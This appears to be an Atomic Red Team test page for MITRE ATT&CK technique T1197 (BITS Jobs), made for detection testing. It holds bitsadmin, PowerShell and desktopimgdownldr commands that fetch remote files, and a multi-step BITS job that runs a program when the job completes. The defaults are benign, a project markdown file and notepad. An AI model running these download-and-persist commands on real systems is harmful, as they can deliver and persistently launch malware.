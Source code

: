 # T1197 - BITS Jobs

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197)

<blockquote>Adversaries may abuse BITS jobs to persistently execute code and perform various background tasks. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM).(Citation: Microsoft COM)(Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1059/001) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool.(Citation: Microsoft BITS)(Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download (e.g. [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105)), execute, and even clean up after running malicious code (e.g. [Indicator Removal](https://attack.mitre.org/techniques/T1070)). BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls.(Citation: CTU BITS Malware June 2016)(Citation: Mondok Windows PiggyBack BITS May 2007)(Citation: Symantec BITS May 2007) BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots).(Citation: PaloAlto UBoatRAT Nov 2017)(Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).(Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Bitsadmin Download (cmd)](#atomic-test-1---bitsadmin-download-cmd)

- [Atomic Test #2 - Bitsadmin Download (PowerShell)](#atomic-test-2---bitsadmin-download-powershell)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)

- [Atomic Test #4 - Bits download using desktopimgdownldr.exe (cmd)](#atomic-test-4---bits-download-using-desktopimgdownldrexe-cmd)

<br/>

## Atomic Test #1 - Bitsadmin Download (cmd)

This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows

**auto_generated_guid:** 3c73d728-75fb-4180-a12f-6712864d7421

#### Inputs:

| Name        | Description                             | Type | Default Value                                                                               |
| ----------- | --------------------------------------- | ---- | ------------------------------------------------------------------------------------------- |
| remote_file | Remote file to download                 | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md |
| local_file  | Local file path to save downloaded file | path | %temp%&#92;bitsadmin1_flag.ps1                                                              |

#### Attack Commands: Run with `command_prompt`!

```cmd
bitsadmin.exe /transfer /Download /priority Foreground #{remote_file} #{local_file}
```

#### Cleanup Commands:

```cmd
del #{local_file} >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - Bitsadmin Download (PowerShell)

This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows

**auto_generated_guid:** f63b8bc4-07e5-4112-acba-56f646f3f0bc

#### Inputs:

| Name        | Description                             | Type | Default Value                                                                               |
| ----------- | --------------------------------------- | ---- | ------------------------------------------------------------------------------------------- |
| remote_file | Remote file to download                 | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md |
| local_file  | Local file path to save downloaded file | path | $env:TEMP&#92;bitsadmin2_flag.ps1                                                           |

#### Attack Commands: Run with `powershell`!

```powershell
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```

#### Cleanup Commands:

```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #3 - Persist, Download, & Execute

This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transferand execute a payload in multiple steps.
Note that in this test, the file executed is not the one downloaded. The downloading of a random file is simply the trigger for getting bitsdamin to run an executable.
This has the interesting side effect of causing the executable (e.g. notepad) to run with an Initiating Process of "svchost.exe" and an Initiating Process Command Line of "svchost.exe -k netsvcs -p -s BITS"
This job will remain in the BITS queue until complete or for up to 90 days by default if not removed.

**Supported Platforms:** Windows

**auto_generated_guid:** 62a06ec5-5754-47d2-bcfc-123d8314c6ae

#### Inputs:

| Name          | Description                             | Type   | Default Value                                                                               |
| ------------- | --------------------------------------- | ------ | ------------------------------------------------------------------------------------------- |
| command_path  | Path of command to execute              | path   | C:&#92;Windows&#92;system32&#92;notepad.exe                                                 |
| bits_job_name | Name of BITS job                        | string | AtomicBITS                                                                                  |
| local_file    | Local file path to save downloaded file | path   | %temp%&#92;bitsadmin3_flag.ps1                                                              |
| remote_file   | Remote file to download                 | url    | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md |

#### Attack Commands: Run with `command_prompt`!

```cmd
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} NULL
bitsadmin.exe /resume #{bits_job_name}
ping -n 5 127.0.0.1 >nul 2>&1
bitsadmin.exe /complete #{bits_job_name}
```

#### Cleanup Commands:

```cmd
del #{local_file} >nul 2>&1
```

<br/>
<br/>

## Atomic Test #4 - Bits download using desktopimgdownldr.exe (cmd)

This test simulates using desktopimgdownldr.exe to download a malicious file
instead of a desktop or lockscreen background img. The process that actually makes
the TCP connection and creates the file on the disk is a svchost process (“-k netsvc -p -s BITS”)
and not desktopimgdownldr.exe. See https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/

**Supported Platforms:** Windows

**auto_generated_guid:** afb5e09e-e385-4dee-9a94-6ee60979d114

#### Inputs:

| Name          | Description                                    | Type   | Default Value                                                                               |
| ------------- | ---------------------------------------------- | ------ | ------------------------------------------------------------------------------------------- |
| remote_file   | Remote file to download                        | url    | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md |
| download_path | Local file path to save downloaded file        | path   | SYSTEMROOT=C:&#92;Windows&#92;Temp                                                          |
| cleanup_path  | path to delete file as part of cleanup_command | path   | C:&#92;Windows&#92;Temp&#92;Personalization&#92;LockScreenImage                             |
| cleanup_file  | file to remove as part of cleanup_command      | string | \*.md                                                                                       |

#### Attack Commands: Run with `command_prompt`!

```cmd
set "#{download_path}" && cmd /c desktopimgdownldr.exe /lockscreenurl:#{remote_file} /eventName:desktopimgdownldr
```

#### Cleanup Commands:

```cmd
del #{cleanup_path}\#{cleanup_file} >nul 2>&1
```

<br/>
